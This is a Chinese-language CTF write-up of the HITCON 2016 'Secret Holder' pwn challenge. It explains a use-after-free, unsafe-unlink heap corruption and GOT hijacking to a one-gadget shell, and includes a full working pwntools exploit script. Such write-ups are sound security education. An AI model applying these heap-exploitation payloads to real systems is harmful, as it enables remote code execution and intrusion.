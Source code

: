 ```yaml
---
title: '[HITCON CTF 2016 Quals] Secret Holder 100'
author: bruce30262
tags:
  - pwn
  - heap
  - HITCON CTF 2016
  - Use After Free
  - unsafe unlink
  - smallbin
  - one gadget
  - GOT hijacking
categories:
  - write-ups
date: 2016-10-14 23:52:00
---
```

## Info  
> Category: pwn
> Point: 100
> Author: bruce30262 @ BambooFox
> 這題是比賽結束後才解出來的 :(

## Analyzing
64 bit ELF, Partial RELRO, 有canary & NX, 沒PIE

程式行為很簡單:

* keep secret: 新增一個 secret ( 使用 calloc )
* wipe secret: 刪除一個 secret
* renew secret: 編輯一個 secret

secret 種類有三種:

* small secret: secret buffer 大小為 40  
* big secret: secret buffer 大小為 4,000 
* huge secret: secret buffer 大小為 400,000 

三個 secret 的 buffer address 都會存在 global 段。

這題的洞主要是在 `wipe` 那邊，在刪除一個 secret 的時候不會檢查 secret 是否存在，因此存在著 Use-After-Free 的情形。例如 keep(small) --> wipe(small) --> keep(big) --> **wipe(small)**，這樣的操作可以製造出 dangling pointer。

比賽當下在解的時候頂多做出 small 和 big buffer overlapped 的情形，但是因為兩者的 base address 位於同樣的位址，因此無法改到 chunk header。此外雖然可以改到 top_size，但是因為 malloc 大小不可控的關係，因此也無法利用 [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) 來解這題。當時沒有想到要用 huge 來解題，因為覺得 huge 的 buffer 其 size 過大，必定會使用 `mmap` 來配置記憶體，所以覺得沒有什麼可以利用的點。比賽結束後，經詢問卻發現原來 huge 是這題的關鍵...


## Exploit
關鍵在於，第一次 `keep(huge)` 的時候的確會使用 `mmap` 來配置記憶體，但是將 huge 給 wipe 掉之後，**第二次 `keep(huge)` 時會使用 `malloc` 來進行配置**，而非 `mmap`。因此掌握到這點之後，我們可以透過以下步驟來 exploit 這題:

1. 先透過一連串的 `keep` 和 `wipe`，讓 small 和 huge 的 buffer 位置重疊 ( same base address )。
2. 之後 `keep(big)`，讓 big 的 buffer 位置接在 small 的後面。
3. `renew(huge)`，此時就可以蓋到 big 的 chunk header。我們可以在 big 的 buffer 位置偽造假的 smallbin，並在其附近偽造一些 chunk，之後 `wipe(big)`，做 [unsafe unlink attack](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c)，overwrite 掉位於 global data 段上的 buffer address。
4. 假設改掉的是 huge 的 buffer address，之後我們就可以透過 `renew(huge)` 來覆寫掉所有 secret 的 buffer address。
5. 之後我們就可以透過 `renew(small/big/huge)` 來做任意位址讀寫。

(想了解 unsafe unlink 如何 work 的可以參考這兩篇: [link1](http://winesap.logdown.com/posts/258859-0ctf-2015-freenote-write-up), [link2](http://angelboy.logdown.com/posts/259180-0ctf-2015-write-up) )

能做到任意位址讀寫之後基本上就差不多了。因為 GOT 可寫的關係，因此接下來可以利用 GOT hijacking 來 exploit。不過因為這題我們還沒有 leak 的關係，因此要先透過 GOT hijacking 做 leak，之後再控制 control flow 拿 shell。

這裡我的做法是先將 free 改成 puts，並將 small 的 buffer 改成 `__libc_start_main@got.plt`，這樣子在 `free(small)` 的時候就可以 leak libc 的 address。之後再 hijack 任意一個 GOT 跳 [one gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)，即可拿到 shell。

```python exp_secret.py
#!/usr/bin/env python
from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()
```

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`

這題學到的教訓是 fuzz 真的要做完整，然後不要太相信自己所學的東西 Q_Q

